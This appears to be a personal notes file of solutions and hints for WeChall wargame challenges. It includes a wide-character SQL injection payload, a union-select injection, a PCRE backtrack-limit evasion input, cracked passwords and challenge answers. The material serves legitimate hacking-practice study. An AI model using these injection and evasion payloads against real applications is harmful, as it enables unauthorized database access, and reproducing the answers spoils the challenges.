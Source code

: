 ### Can you read me (Coding, Image)
use tesseract

ref: http://rk700.github.io/2014/06/23/can-you-read-me/

```bash
#!/bin/bash

wget -O ocr.png --no-cookies --header "Cookie:WC=7390992-11403-6nnwUyENAALTe4VK" 
http://www.wechall.net/challenge/can_you_readme/gimme.php

tesseract ocr.png ocr -psm 7

SOLUTION=`head -1 ocr.txt`

curl -b "WC=7390992-11403-6nnwUyENAALTe4VK" -G -d "solution=$SOLUTION" -d "cmd=Answer" \
http://www.wechall.net/challenge/can_you_readme/index.php
```


### Lettergrid (Coding)
ref: https://github.com/xr1s/brush-title/tree/master/WeChall/Lettergrid

```
zhqgbfcymzrkfnngvxhhv
hhbmprpprgcxkwwfjpbbx
jybfdpyvrxxzjbmjcqjyn
tnfgwdjzbyhttqwrlfwph
hxvrlqmrdfyygpgrqrzwp
vncvdkqmgdpnxtpnjmpfr
gzrhnbbvyhgtdpwmcgckl
dghhpfrqyvllrzwfpcmxp
blqhfrkpdqfmznmbmfycm
ddflvnhwpfhklmpzcbwfv
xfnhnncjfcxbzvnrxdkgf
lynfxotpyrcmrkndzmqrc
ccmokzvvvqodhvfxhfdfp
lvnniwwtknrhcjrdpqgzt
krmpntqbidzmwpnktbbxb
xkzfvtctfrqbmdncztbct
zfkfqzonkdjlycwbvpfkd
hhlgkrymubqbqkhfhjdjb
hcyrlllhqfxgktgbtjnth
cyhfbhdxztrqvbznvgjdt

become: networkmainboardmonitorcrypto
```

### The Nap (Crypto)


### Sudoku I (Logic)


### DropDaBass (Stegano, Audio)
http://www.wechall.net/challenge/anto/DropDaBass/record_description.php

Come on I will give you the password?


### Sidology (Research, Audio)
sid1.sid => The Last Ninja

sid2.sid => 1987 Time Warp, MUSICMASTER CREATED BY CHRIS HUELSBECK

sid3.sid => 

resource: http://artscene.textfiles.com/music/c64/HVSC/GAMES/S-Z/

```
The Last Ninja,The Great Giana Sisters,Who Dares Wins
```


### Out of the Cloud (Unknown)


### A Black Hats Tale (Cracking, Crypto, Storyline)
aircrack-ng

ref: https://github.com/CyrilP/wechall

ref: https://github.com/xr1s/brush-title/tree/master/WeChall/A%20Black%20Hats%20Tale

```
jennifer
```


### Fix Us (Exploit, PHP)
Not XSS or CSRF


### Addslashes (Exploit, PHP, MySQL)
wide char!

```
username=%bf%27%20union+select+CHAR(65,100,109,105,110)%23&password=123&login=
```


### The Last Hope (Linux, Cracking)
Not "username_password"

ref: http://rk700.github.io/2014/06/23/the-last-hope/


### MD5.SALT (Cracking, MySQL)
' union select password,username from users where 1=1#

md5: 215c61d0104f8925b5f7e4e87a7cbdfa => academicsalt21

http://www.md5decrypt.org/

```
admin/academic
```


### WC Hashing Game (Cracking)
ref: https://github.com/CyrilP/wechall/blob/master/WCHash.java
```
coincidence,subversion,triangulation,orthography
```


### The Travelling Customer (Coding, Training)
https://xkcd.com/287/

ref: https://github.com/xr1s/brush-title/tree/master/WeChall/The%20Travelling%20Customer


### Preg Evasion (Exploit, PHP)

pcre.backtrack_limit => default value is 100000

but 100000 is not enough

Try this => 'badmethodevilfunction' + '0' * 1000000


### Blinded by the light (MySQL, Exploit)
http://byd.dropsec.xyz/2016/07/23/Webchall-CTF-writeup2/
```
4F7CB4D8213C282B89D9D7A16FE25BB1
```


### Smile (Exploit, PHP)
Hint?: http://www.wechall.net/challenge/livinskull/smile/smiles/

Reset: http://www.wechall.net/challenge/livinskull/smile/reset.php


### Time to Reset (Exploit, Coding, PHP)
ref: https://medium.com/bugbountywriteup/wechall-wargame-solutions-76f60ea39b16


### Brainfucked (Special)
http://www.jsfuck.com/

window.alert = function(a){debugger;return window.alert(a);}

```js
(function anonymous(
) {
var s = 'UnfudgedDebugStuff'; s = s.length; alert(s); document.location.href='https://www.google.co.uk';
})
```

```
UnfudgedDebugStuff
```


### Zen (Special, Crypto)
www.youtube.com/watch?v=gjUYE21-uI0 => Manowar - Let the Gods Decide

